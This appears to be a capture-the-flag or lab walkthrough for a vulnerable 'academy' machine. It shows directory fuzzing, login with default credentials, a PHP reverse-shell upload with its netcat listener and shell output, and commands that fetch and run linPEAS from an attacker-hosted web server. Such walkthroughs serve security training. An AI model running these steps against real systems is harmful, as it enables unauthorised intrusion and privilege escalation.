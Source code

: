 Here are three tools to perform clawing:
~~~
 1. ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://<Tartget_IP_Address>/FUZZ
 2. dirb http://<Tartget_IP_Address>
 3. dirbuster ✅
~~~
Using Dirbuster, we discovered:
 - an phpMyAdmin(phpmyadmin/index.php) login portal.
 - an user login/admin panel in the target web application(/academy).

We successfully logged in using both the student credentials found in the note.txt file from FTP and the default admin credentials.
 1. 10201321:student
 2. admin:admin

In student login session, there was an option for student to upload the profile pictrue.  
We were able to **upload non-image format file**.

## Exploitation
### HTTP-php reverse shell
Since the image upload functionality does not validate file formats during the enumeration phase, we can attempt to establish a connection using a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).
 1. On Attack machine, turn on Netcat for port listening:
    ~~~
    $ sudo nc -nvlp 1234
    ~~~
 2. Upload <payload.php> to student info
 > connect to [192.168.182.135] from (UNKNOWN) [192.168.182.158] 37312  
 > Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux 01:28:49 up 1:00, 1 user, load average: 0.70, 0.35, 0.25  
 > USER    TTY    FROM    LOGIN@    IDLE    JCPU    PCPU    WHAT  
 > root    tty1   -       00:29     55:45   0.26s   0.24s   -bash  
 > uid=33(www-data) gid=33(www-data) groups=33 (www-data) /bin/sh: 0: can't access tty; job control turned off  
 > $ whoami  
 > www-data  

### HTTP-Escalation
Configure a web server to facilitate the transfer of [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) to the target machine via the established PHP reverse shell session.
~~~
1. $ python3 -m http.server 80  
 # Run this command on attacker machine
2. $ wget http://<Attack_Machine_IP>/linpeas.sh  
 # Run on the established PHP reverse shell session
3. $ chmod +x linpeas.sh
 # Ensure to modify permission, otherwise it won’t be executed.
4. $ ./linpeas.sh
~~~
